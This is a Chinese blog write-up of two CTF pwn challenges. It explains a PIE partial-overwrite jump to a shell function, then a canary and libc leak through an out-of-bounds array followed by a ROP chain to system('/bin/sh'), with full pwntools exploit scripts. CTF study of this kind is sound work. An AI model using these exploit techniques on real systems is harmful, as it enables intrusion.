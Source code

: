 <!--yml
category: 未分类
date: 2022-04-26 14:37:08
-->

# PWNctf的pwn题解析_Peanuts_CTF的博客-CSDN博客_ctfpwn题

> 来源：[https://blog.csdn.net/w12315q/article/details/83869439](https://blog.csdn.net/w12315q/article/details/83869439)

## importantservice

这个题目比较简单，保护开的很多多到我怀疑自己是不是把题目想的太简单了，结果果然是这么简单的。。

### 程序功能分析

**main函数分析**

**![](img/1931e67524d3b214e3f39a13fc7fbca8.png)**

main函数的功能并不复杂，开头一个dologic函数对v5这个指针进行一个赋值，然后接着让你输入两个数字，是身高和体重，会有一个check乘积不能大（可能怕你太不匀称?）但是我们可以输入0来对此检查进行绕过，然后又进入了一个如数，这是我们可以控制长度的输入（控制v6即可，果然重量的控制是最重要的hhh），此时观察栈我们可以进行覆盖函数

**dologic函数**

![](img/f8d280205b7dbd5951b06990e8850e62.png)

这个函数其实并没有什么用。。。

**givemeshell函数**

![](img/6900ab4f008ee08ae44753b52d6fb085.png)

这里有一个getshell的函数，一般不出意外就是控制程序能够跳转到这里就可以了。

### 调试程序

**保护检查**

![](img/05808ce748f53dc0ac61bf0c7a5b7ce1.png)

好吧当时我就是看见这些保护全开了，以为是一个比较难的栈溢出的题目，结果。。hhh

**v5函数指针偏移确定**

这里用ida直接看或者gdb调试都可以，你可以发现他自己就是在栈上，而且和canary一点关系都没有

### 思路分析

一、对身高体重进行一个绕过，这里是纯脑洞，使我们的输入可以无限变大

二、开了pie，可以利用地址的低位覆盖让程序覆盖到我们想要的getshell地址（刚开始做题目的时候，四位定式了，对开了pie的题目第一步就是想到要进行地址泄漏，发现怎么也泄漏不出地址所以卡了好久。最后柳暗花明了，忘记了最简单的绕过方法。）

### exp:

```
from pwn import*
p = process('./importantservice')
context.log_level = 'debug'
payload = 'a'*1024 + '\xA9\x11'
raw_input()
p.recvline()
p.sendline('1025 0')
p.recvline()
p.send(payload)

p.interactive()
```

## exploitClass

这道题目考查的是数组越界和canary的绕过，我个人觉得是质量非常高的一个题目，题目本身不难但是很有做的价值

### 程序功能分析

**main函数**

![](img/10561ad0a4c417b4e1b7473eae3f6e30.png)

函数本身并没有什么特别的地方，就是打印一个字符串，这个时候点进buffer函数看看吧。

**buffer函数**

**![](img/512031e67a9b87bd1231712196eac0d0.png)**

看函数，具体有两个功能一个是writeData,一个是readData，然后如果输入的数不是1或者2就是执行退出这个操作。这里并没有什么问题，继续分析其他两个函数。

**writeData函数**

![](img/042671d686c3b4115c722b690d2dfb69.png)

这个函数里就有些问题了v2检查的数过大，所以存在一个数组越界的漏洞，我们可以执行一个任意写的操作，在看看readData函数，看看能不能有什么泄漏操作。

**readData函数**

![](img/52aad8746ad107ba1bbb7ce47a684fdb.png)

这里我们可以进行一个数组的读的操作，这个操作利用的是puts是一个0截断的来判断字符串是否结束的函数，而在writeData中的read是一个自动会把后面的‘\n’去掉的函数，所以可以利用这个来泄漏各种东西比如：canary,libcbase

### 调试过程

**保护检查**

好吧。。动不动就是保护全开的。。 

![](img/10eb720662072443d05f0eff0b287b27.png)

**canary地址确定**

**![](img/6a21f8a266a7d1dfbfc14ff540fb9230.png)**

观察这里是一个对canary的check，所以我们看箭头所指向的2处，往上rax的值就是canary，这个时候我们在栈当中去寻找canary所处的地址 

![](img/2a39ad86a726097813f6551afadd34ef.png)

图中所指的栈的位置就是canary所处的位置了，泄漏了他就可以了。

**exit退出时调试**

这里就不上图了，调试过程中可以发现当输入3的时候buffer函数会返回到main+44这个地址，且在栈中，因此可以对其进行覆盖然后做一个ROP

### 思路分析

一、先利用数组越界这个漏洞进行一个canary，libcbase的泄漏操作，计算出基地址。其中因为read函数有一个检查只能读到21，这里我们可以利用puts函数0截断的特点进行一个垃圾字符的填充从而做到泄漏地址和写地址的操作

二、覆盖函数的ret进行一个ROP链的利用，关于ROP的利用就不多说了，坑点无非就是这里是一个64位的程序不是直接引用栈的。

### exp:

```
from pwn import *

p = process("./exploitClass")
elf = ELF("./exploitClass")
libc = elf.libc
context.log_level = 'debug'
def read(index):
   p.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")
   p.sendline("1")
   p.recvuntil("Which entry to show?\n")
   p.sendline(str(index))
   ret_info = p.recvuntil("\n")
   return ret_info[:-1]

def write(index,data):
    p.recvuntil("Enter 1 to read, 2 to write and any other number to exit!\n")
    p.sendline("2")
    p.recvuntil("Which entry to write?\n")
    p.sendline(str(index))
    p.recvuntil("What to write?\n")
    p.send(data)

write(21,"A"*12)
write(22,"B")
canary = u64(read(21)[12:20])-ord("B")
print "canary = " + hex(canary)

write(22,"1"*12)
write(23,"1"*12)
write(24,"1"*12)
write(25,"1"*12)

libc_base = u64(read(21)[12+48:20+48-2].ljust(8,'\x00')) - 240 - libc.symbols['__libc_start_main']

print "libc_base = " + hex(libc_base)
raw_input()
pop_rdi_ret = 0x21102 + libc_base
binsh_addr = next(libc.search('/bin/sh\x00')) + libc_base
system = libc.symbols['system'] + libc_base
write(22,p64(canary))

write(24,"\x00"*8+p64(pop_rdi_ret)[0:4])
write(25,p64(pop_rdi_ret)[4:8]+p64(binsh_addr))
write(26,p64(system))

p.sendline("3")
p.interactive()
```